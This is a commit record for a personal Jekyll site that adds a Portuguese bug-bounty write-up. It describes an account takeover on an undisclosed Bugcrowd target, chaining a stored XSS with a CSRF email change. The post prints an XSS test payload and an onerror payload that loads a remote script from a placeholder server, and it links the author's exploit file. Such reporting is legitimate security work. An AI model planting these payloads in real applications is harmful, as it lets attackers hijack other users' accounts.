

Before and after one commit to vitor-fernandes/vitor-fernandes.github.io, a Jekyll site: the page built from _posts/2019-05-15-Bug-Bounty-00.markdown, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Bug Bounty 01

```diff
--- a/_posts/2019-05-15-Bug-Bounty-00.markdown
+++ b/_posts/2019-05-15-Bug-Bounty-00.markdown
@@ -23,7 +23,7 @@
 <br>
 após salvar a descrição e atualizar, boooommm :)
 <br>
-<img src="/images/bug_bounty/bb00-00.png"/>
+<img src="/images/bug_bounty/bb00/bb00-00.png"/>
 </p>
 
 <p align="justify">
--- /dev/null
+++ b/_posts/2019-06-03-Bug-Bounty-01.markdown
@@ -0,0 +1,96 @@
+---
+layout: post
+title:  "Bug Bounty 01 - Account Takeover via CSRF + XSS Stored"
+date:   2019-06-03 11:08:00
+categories: All
+img: bug_bounty.png
+---
+<p align="justify">
+Fala galera, neste post irei falar sobre uma vulnerabilidade que encontrei em um programa na plataforma <a href="https://bugcrowd.com" target="_blank">Bugcrowd</a>. A falha já foi corrigida mais infelizmente o vendor não me autorizou a fazer o disclosure, então iremos chamar o site de domain.com :)
+</p>
+
+<p align="justify">
+A aplicação permite que você crie uma instância e adicione vários tipos de funcionalidades, como alertas, serviços, usuários, times etc.
+<br>
+Ao criar um serviço, é necessário que você aloque um time para que eles fiquem encarregados de cuidar deste serviço criado. Dentro de um serviço, era possível adicionar ações específicas para que cada usuário fosse capaz de executar ao realizar determinada tarefa.
+</p>
+
+<p align="justify">
+Nessas ações, verifiquei que ao executá-la um pop-up era aberto com o nome da ação executada, ou seja, o nome da ação era refletido nesse pop-up.
+<br>
+Decidi então adicionar uma tag HTML e um evento JS simples, inseri <code>&lt;img src="x" onerror="alert(1)"/&gt;</code>, e ao clicar na ação maliciosa, o nome foi refletido novamente, sem nenhum tipo de filtro, e o alerta "subiu" :) (opaaaaa)
+<br>
+<img src="/images/bug_bounty/bb01/bb01-00.png"/>
+<br>
+<img src="/images/bug_bounty/bb01/bb01-01.png"/>
+<br>
+Bom, neste ponto, eu já tinha um XSS Stored. Vi como funcionava a aplicação, e notei que havia como um usuário fazer a troca do email, então tive a sacada, eu poderia utilizar de um CSRF junto com o XSS para realizar o Account Takeover.
+</p>
+
+<p align="justify">
+Basicamente, o CSRF consistia em uma request POST simples para o endpoint que realizava a troca do email, decidi criar um arquivo javascript com o exploit (ele está disponível no meu github, vou deixar o link no final do report :) ) para que não ficasse muito código dentro do campo da ação.
+<br>
+<br>
+Utilizei o seguinte código para carregar o exploit quando o usuário executar a ação maliciosa dentro do serviço:
+<br>
+<code>&lt;img src="x" onerror="var script = document.createElement('script'); script.src = 'IP_SERVIDOR/poc.js'; document.getElementsByTagName('head')[0].appendChild(script);"/&gt;</code>
+<br>
+<br>
+<img src="/images/bug_bounty/bb01/bb01-02.png">
+<br>
+<img src="/images/bug_bounty/bb01/bb01-03.png">
+<br>
+Com isso, ao executar a ação maliciosa no serviço, o pop-up seria mostrado e o código executado.
+</p>
+
+<p align="justify">
+Mas.... Para realizar a requisição, era necessário que fosse enviado junto da request, o token CSRF e o ID do usuário. Depois de fuçar um pouco a aplicação, notei que eles estavam sendo armazenados no localStorage (this is very good :) ), então tive apenas que capturar eles via JS e enviá-los juntos da requisição POST.
+<br>
+<img src="/images/bug_bounty/bb01/bb01-00.png"/>
+</p>
+
+<p align="justify">
+Depois de realizar todo o processo, era necessário apenas adicionar as vítimas ao time, e atribuir um serviço com uma ação maliciosa a esse time, vale lembrar que não era necessário que as vítimas tivessem contas já criadas, pois o sistema verificava e caso não houvesse, era criado uma nova conta.
+<br>
+<br>
+</p>
+
+<p align="justify">
+Como PoC, irei colocar alguns prints tirados do vídeo, então vamos lá :)
+<br>
+<br>
+Primeiramente, o email da vítima permanece normalmente:
+<br>
+<img src="/images/bug_bounty/bb01/bb01-04.png">
+<br>
+<br>
+Quando a vítima entrasse no seriço malicioso e fosse realizar alguma ação, esta seria a visão dele:
+<br>
+<img src="/images/bug_bounty/bb01/bb01-03.png">
+<br>
+<br>
+Ao clicar na última ação, o pop-up era mostrado:
+<br>
+<img src="/images/bug_bounty/bb01/bb01-00.png">
+<br>
+<br>
+E em background a ação da troca de email era realizada:
+<br>
+<img src="/images/bug_bounty/bb01/bb01-05.png">
+<br>
+<br>
+Como resultado, o email da vítima foi trocado:
+<br>
+<img src="/images/bug_bounty/bb01/bb01-06.png">
+<br>
+<br>
+Um link de confirmação foi enviado para o email do atacante, e ao confirmar o novo email, a conta da vítima teria o seu email trocado:
+<br>
+<img src="/images/bug_bounty/bb01/bb01-09.png">
+<br>
+Infelizmente, não posso divulgar o vídeo da PoC, pois como foi dito no início, o vendor não autorizou que fosse divulgado a vulnerabilidade.
+</p>
+
+<p align="justify">
+Como prometido, o exploit pode ser encontrado neste link: <a href="https://github.com/vitor-fernandes/exploits/blob/master/poc.js" target="_blank" style="color: blue"><b>Exploit</b></a>
+</p>
```
Also changed, not shown: images/bug_bounty/bb00/bb00-00.png (renamed from images/bug_bounty/bb00-00.png), images/bug_bounty/bb01/bb01-00.png (added), images/bug_bounty/bb01/bb01-01.png (added), images/bug_bounty/bb01/bb01-02.png (added), images/bug_bounty/bb01/bb01-03.png (added), images/bug_bounty/bb01/bb01-04.png (added), images/bug_bounty/bb01/bb01-05.png (added), images/bug_bounty/bb01/bb01-06.png (added), images/bug_bounty/bb01/bb01-09.png (added), images/bug_bounty/bb01/bb01-10.png (added).
